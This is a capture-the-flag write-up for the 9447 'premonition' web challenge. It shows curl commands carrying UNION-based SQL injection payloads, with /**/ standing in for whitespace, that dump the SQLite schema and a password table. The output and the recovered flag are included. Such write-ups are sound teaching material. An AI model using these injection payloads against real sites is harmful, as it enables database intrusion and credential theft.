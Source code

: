 ## premonition - Web 140 Problem

### Description

```
There's been some weird occurrences going on at our school. Teacher's answer questions as though they knew the answer in advance, test results being handed out before the test, and now a weird web form giving info about us. Can you find out what weird information is on it?

Find the page at http://premonition-p8l05mpz.9447.plumbing:9447
```

### Solution

The web page has a form to search through a database of test scores. You control which field is searched, what it is searched for, and the comparison operator. The comparision operator was an obvious first choice for a SQL injection attack.

If you test the comparision operator with invalid operators, there is an error message indicating that the user running the script is *sqliteadmin*. Additionally, further testing showed that all whitespace characters are removed from the provided comparison operator. The resulting queries to list table names and structures:

```
$ curl -d 'score=92' -d 'ineq=is/**/null/**/union/**/select/**/name,sql,3,4/**/from/**/sqlite_master/**/where/**/' http://premonition-p8l05mpz.9447.plumbing:9447/score
[["s3ekr17_passwords", "CREATE TABLE s3ekr17_passwords(\n\tuserid real,\n\tpassword text\n)", 3, 4], ["students", "CREATE TABLE students(\n\tuserid real,\n\tfirstname text,\n\tlastname text,\n\tscore real,\n\tteacher real,\n\tclass text,\n\tdate_birth date,\n\tdate_death date\n)", 3, 4]]
```

Now we can list all of the records in the *s3ekr17_passwords* table:

```
curl -d 'score=92' -d 'ineq=is/**/null/**/union/**/select/**/userid,password,3,4/**/from/**/s3ekr17_passwords/**/where/**/' http://premonition-p8l05mpz.9447.plumbing:9447/score
[[0.0, "9", 3, 4], [1.0, "4", 3, 4], [2.0, "4", 3, 4], [3.0, "7", 3, 4], [4.0, "{", 3, 4], [5.0, "u", 3, 4], [6.0, "S", 3, 4], [7.0, "e", 3, 4], [8.0, "r", 3, 4], [9.0, "A", 3, 4], [10.0, "g", 3, 4], [11.0, "e", 3, 4], [12.0, "n", 3, 4], [13.0, "T", 3, 4], [14.0, "s", 3, 4], [15.0, "_", 3, 4], [16.0, "a", 3, 4], [17.0, "N", 3, 4], [18.0, "d", 3, 4], [19.0, "_", 3, 4], [20.0, "s", 3, 4], [21.0, "p", 3, 4], [22.0, "a", 3, 4], [23.0, "C", 3, 4], [24.0, "e", 3, 4], [25.0, "s", 3, 4], [26.0, "_", 3, 4], [27.0, "a", 3, 4], [28.0, "R", 3, 4], [29.0, "e", 3, 4], [30.0, "_", 3, 4], [31.0, "p", 3, 4], [32.0, "e", 3, 4], [33.0, "a", 3, 4], [34.0, "s", 3, 4], [35.0, "A", 3, 4], [36.0, "n", 3, 4], [37.0, "t", 3, 4], [38.0, "_", 3, 4], [39.0, "R", 3, 4], [40.0, "a", 3, 4], [41.0, "c", 3, 4], [42.0, "E", 3, 4], [43.0, "s", 3, 4], [44.0, "}", 3, 4]]
```

After concatenating all of the password fields, you get the flag:

```
9447{uSerAgenTs_aNd_spaCes_aRe_peasAnt_RacEs}
```
